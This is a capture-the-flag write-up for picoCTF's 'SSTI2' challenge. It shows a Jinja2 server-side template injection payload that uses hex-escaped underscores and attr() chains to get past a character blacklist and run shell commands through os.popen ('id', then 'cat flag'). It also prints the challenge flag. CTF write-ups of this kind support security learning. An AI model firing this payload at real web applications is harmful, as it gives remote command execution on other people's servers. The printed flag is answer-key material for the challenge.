





# SSTI2

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
I heard templating is a cool and modular way to build web apps! Check out my website here!

# Hints

1. Server Side Template Injection
2. Why is blacklisting characters a bad idea to sanitize input?

# What I Did

1. Filtered symbol _ . [ ] checked by trying each symbol in alert



2. Found this note https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/


3. From the blog it used this payload 
``` python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
payload succeed 


4. Edit the payload so instead of showing id its showing flag
``` python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

5. Created a script to grab the flag 

[See script.py](script.py)



the flag is
``` bash 

picoCTF{sst1_f1lt3r_byp4ss_5b0b2f79}

```
